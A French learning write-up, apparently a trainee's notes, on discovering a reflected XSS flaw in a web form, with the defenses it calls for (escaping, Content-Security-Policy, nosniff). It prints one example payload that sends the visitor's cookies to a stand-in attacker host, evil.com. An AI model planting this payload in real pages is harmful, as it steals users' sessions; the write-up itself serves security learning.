 # 📌 Analyse approfondie – Mission 2.2
## "Pourquoi l’injection de données dans un formulaire est un vrai risque de sécurité"

---

## 🧠 Ce que j’ai découvert techniquement

En manipulant un formulaire web simple, j’ai pu :
- Modifier les valeurs envoyées dans les champs (nom, téléphone)
- Injecter du code potentiellement malveillant (HTML / JS / SQL)
- Observer que ces données étaient **renvoyées telles quelles dans la réponse**
- Constater l’absence de filtrage ou d’échappement des caractères spéciaux

➡️ Cela signifie que **le serveur ne protège pas la sortie des données entrées par l’utilisateur**.

---

## ⚠️ Pourquoi c’est dangereux

### 1. ❗ Risque de XSS réfléchi (Reflected Cross-Site Scripting)

Si un site **renvoie directement** ce qu’un utilisateur tape dans une page HTML sans vérification, un attaquant peut injecter :
```html
<script>document.location='https://evil.com?cookie='+document.cookie</script>

➡️ Cela peut permettre :

Le vol de session utilisateur

L’injection de fausses interfaces (phishing)

L’exécution de scripts malveillants


 Pourquoi c’est un échec de sécurité côté serveur
Un serveur bien configuré devrait :

✅ Filtrer ou échapper tous les caractères spéciaux HTML (<, >, ', ", etc.)

✅ Appliquer la politique Content-Security-Policy dans les headers

✅ Ajouter X-Content-Type-Options: nosniff pour empêcher l’exécution non voulue

✅ Ne jamais renvoyer tel quel une donnée entrée par l’utilisateur dans une page HTML sans traitement

👀 Ce que j’ai appris
Observer un formulaire n’est pas juste lire du HTML : c’est observer les mécanismes cachés derrière l’interface

Toute donnée contrôlée par l’utilisateur est une porte potentielle

La faiblesse ne vient pas toujours du formulaire → elle vient de ce que le serveur en fait

Ce genre de faille est courant en entreprise, surtout dans :

Des formulaires oubliés

Des outils internes

Des pages d’admin légères mal protégées